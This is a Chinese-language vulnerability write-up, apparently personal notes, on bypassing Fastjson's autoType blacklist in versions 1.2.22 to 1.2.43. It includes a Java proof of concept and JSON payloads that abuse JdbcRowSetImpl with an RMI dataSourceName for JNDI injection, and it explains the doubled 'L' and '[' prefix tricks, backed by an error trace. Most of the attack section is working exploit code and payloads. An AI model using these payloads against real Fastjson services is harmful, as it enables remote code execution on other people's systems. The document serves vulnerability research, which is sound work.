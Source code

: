 ## 漏洞复现

一样要开启autoTypeSupport

POC

```
package Fastjson.Test;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class Unser {
    public static void main(String[] argv) throws Exception{
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",\"dataSourceName\":\"rmi://localhost:1099/badNameClass\", \"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

![image-20220302164919232](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220302164919232.png)

在1.2.22-1.2.42版本运行都能成功触发

因为多加的一个`L`和`;`只是为了绕过黑名单,而真正的处理还是loadClass方法的循环调用机制

# 1.2.25-1.2.43补丁绕过

在1.2.43的版本中,checkAutoType里面添加了如下代码，连续出现两个L会抛出异常

![image-20220302182423045](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220302182423045.png)

## 绕过思路

可以再来看看loadClass方法

![image-20220302190037919](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220302190037919.png)

我们之前用的都是第二个elseif，都是现在两个L会报错，不过可以来看看第一个elseif，如果以`[`开头的话也会去掉第一个字符然后通过Array.newInstance().getClass()来获取并返回类

可以用如下payload试试看

```
{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1099/badNameClass\", \"autoCommit\":true}
```

出现了这样的报错

```
Exception in thread "main" com.alibaba.fastjson.JSONException: exepct '[', but ,, pos 42, json : {"@type":"[com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/badNameClass", "autoCommit":true}
	at com.alibaba.fastjson.parser.DefaultJSONParser.parseArray(DefaultJSONParser.java:675)
	at com.alibaba.fastjson.serializer.ObjectArrayCodec.deserialze(ObjectArrayCodec.java:183)
	at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:373)
	at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1338)
	at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1304)
	at com.alibaba.fastjson.JSON.parse(JSON.java:152)
	at com.alibaba.fastjson.JSON.parse(JSON.java:162)
	at com.alibaba.fastjson.JSON.parse(JSON.java:131)
	at Fastjson.Test.Unser.main(Unser.java:10)
```
